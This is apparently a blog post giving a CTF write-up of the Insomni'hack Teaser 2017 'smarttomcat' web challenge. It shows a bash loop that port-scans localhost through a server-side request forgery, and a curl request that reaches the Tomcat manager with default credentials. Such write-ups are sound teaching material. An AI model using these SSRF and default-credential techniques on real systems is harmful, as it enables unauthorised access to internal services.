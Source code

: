 ```yaml
---
layout: post
title: "CTF: Solving smarttomcat challenge from Insomnihack Teaser 2017"
author: capitol
category: ctf
---
```

![channel](/images/SleepyTomcat.jpg)

##### category:
web

##### points:
50

#### Writeup
The Insomni'hack teaser 2017 was a fun CTF with a good spread between easy and hard challenges.

The smarttomcat challenge was an easy web challenge that was about attacking a badly secured tomcat server, as a user you where presented with a webpage that had an backend written in php, that backend called a tomcat server on localhost.

When looking at the form post data from the browser it became apparant that the url that the backend called was submitted by the form.

This enabled us to write a port scan as a simple bash loop:

```bash
for x in $(seq 1 65535); do echo $x >> /tmp/log && curl 'http://smarttomcat.teaser.insomnihack.ch/index.php' --data "u=http%3A%2F%2Flocalhost%3A$x%2F" >> /tmp/log;done
```

This didn't really help us. And we realized that we could access the tomcat management url on the same port as the rest of the application. A simple google gave us the default username and password.

#### Solution
```bash
curl 'http://smarttomcat.teaser.insomnihack.ch/index.php' --data 'u=http://tomcat:tomcat@127.0.0.1:8080/manager/html'
```
